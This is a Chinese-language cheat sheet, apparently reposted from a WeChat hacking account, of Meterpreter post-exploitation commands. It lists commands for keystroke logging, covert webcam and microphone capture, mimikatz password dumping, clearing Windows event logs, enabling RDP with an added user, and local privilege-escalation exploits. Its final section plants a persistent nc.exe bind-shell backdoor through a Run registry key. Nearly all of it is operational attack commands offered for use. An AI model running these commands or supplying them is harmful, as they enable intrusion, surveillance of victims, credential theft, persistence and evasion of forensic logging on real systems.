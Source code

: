 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/wqhHMCHNrlLg-EhD\_1mt2Q)

**前言**
------

Meterpreter 是 Metasploit 框架中的一个扩展模块，作为溢出成功以后的攻击载荷使用，攻击载荷在溢出攻击成功以后给我们返回一个控制通道。Meterpreter 功能强大，支持信息收集、提权、注册表操作、哈希利用、截屏录屏等操作，也支持对摄像头、录音设备、键盘鼠标的控制。

  

---

**常用命令**
--------

```
sessions -i 进入会话
sessions -k 杀死会话
pwd         查看当前目录
getuid      查看当前用户信息
sysinfo     查看远程主机系统信息
execute     在目标主机上执行命令
hashdump    获取目标主机用户密码hash信息
getsystem   提升权限
shell       切换至传统shell
background  将当前session放入后台
kill        关闭进程
load        加载meterpreter扩展
exit        退出当前shell
arp         显示ARP缓存
getproxy    显示当前代理配置
ifconfig    显示接口
ipconfig    显示接口
netstat     显示网络连接
portfwd     将本地端口转发到远程服务
route       查看和修改路由
getenv      查看环境变量
getprivs    查看权限
pgrep       搜索进程
ps          查看当前运行进程
reboot      重启系统
reg         修改注册表
clearev     清除windows中的应用程序日志、系统日志、安全日志
```

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic3ibMm7q7SicDzDLPZia7LEUvxf8iaduN8rkWoUQKaT6Vk3W4OrS3AbCQld7ibJwM5Ric5aicw9DfqmacaibA/640?wx_fmt=png)

  

---

**文件系统命令**
----------

```
cat           查看文件
cd            改变目录
checksum      校验文件md5或sha1
cp            拷贝文件
download      下载文件
edit          编辑文件
ls            列出文件
mkdir         创建文件夹
mv            移动文件
rm            删除文件
rmdir         删除文件夹
search        查找文件
show\_mount    列出所有驱动器
upload        上传文件
```

  

---

**用户设备命令**
----------

```
enumdesktops   列出所有可访问的桌面和窗口
getdesktop     获取当前桌面
idletime       获取远程系统已运行时间（从上次重新启动开始计算）
keyboard\_send  发送击键
keyscan\_dump   转储击键缓冲区
keyscan\_start  开始捕获击键
keyscan\_stop   停止捕获击键
mouse          发送鼠标事件
screenshare    实时观看远程用户的桌面
screenshot     截屏
setdesktop     更改shell当前桌面
uictl          控制用户界面组件
record\_mic     记录麦克风一定秒数
webcam\_chat    开始视频聊天
webcam\_list    列出网络摄像头
webcam\_snap    从指定网络摄像头拍摄
webcam\_stream  播放指定网络摄像头的视频流
play           在目标系统播放音频
```

  

---

**mimikatz 抓取密码**
-----------------

```
load mimikatz   加载mimikatz模块
help mimikatz   查看帮助
wdigest         获取密码
```

![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic3ibMm7q7SicDzDLPZia7LEUvxjrDNInZcknnpOHnHsc4Cq0NCiaG0rMRUJF53UCvO1j6SDXZczhkC92A/640?wx_fmt=png)

**开启远程桌面**
----------

```
run vnc 使用vnc连接远程桌面
run getgui -e 开启远程桌面
run post/windows/manage/enable\_rdp 开启远程桌面
run post/windows/manage/enable\_rdp USERNAME=test PASSWORD=123456 添加用户
run post/windows/manage/enable\_rdp FORWARD=true LPORT=6662   将3389端口转发到6662
```

  

---

**收集信息**
--------

```
run post/windows/gather/checkvm #是否虚拟机
run post/linux/gather/checkvm #是否虚拟机
run post/windows/gather/forensics/enum\_drives #查看分区
run post/windows/gather/enum\_applications #获取安装软件信息
run post/windows/gather/dumplinks   #获取最近的文件操作
run post/windows/gather/enum\_ie  #获取IE缓存
run post/windows/gather/enum\_chrome   #获取Chrome缓存
run post/windows/gather/enum\_patches  #补丁信息
run post/windows/gather/enum\_domain  #查找域控
```

  

---

**针对未安装补丁攻击**
-------------

```
run post/windows/gather/enum\_patches  收集补丁信息
攻击：
msf > use exploit/windows/local/xxxx
msf > set SESSION 2
msf > exploit
```

**注册表设置 nc 后门**
---------------

```
upload /usr/share/windows-binaries/nc.exe C:\\\\windows\\\\system32 #上传nc
reg enumkey -k HKLM\\\\software\\\\microsoft\\\\windows\\\\currentversion\\\\run   #枚举run下的key
reg setval -k HKLM\\\\software\\\\microsoft\\\\windows\\\\currentversion\\\\run -v lltest\_nc -d 'C:\\windows\\system32\\nc.exe -Ldp 443 -e cmd.exe' #设置键值
reg queryval -k HKLM\\\\software\\\\microsoft\\\\windows\\\\currentversion\\\\Run -v lltest\_nc   #查看键值
nc -v 192.168.159.144 443  #攻击者连接nc后门
```

  

---

参考资料
----

*   meterpreter help 文件
    
*   https://xz.aliyun.com/t/2536
    

文章作者: 麻薯  
原始链接: www.uuzdaisuki.com

**关注公众号: HACK 之道**  

![](https://mmbiz.qpic.cn/mmbiz_jpg/GzdTGmQpRic3qL1R1NCVbY1ElanNngBlMTUKUibAUoQNQuufs7QibuMXoBHX5ibneNiasMzdthUAficktvRzexoRTXuw/640?wx_fmt=jpeg)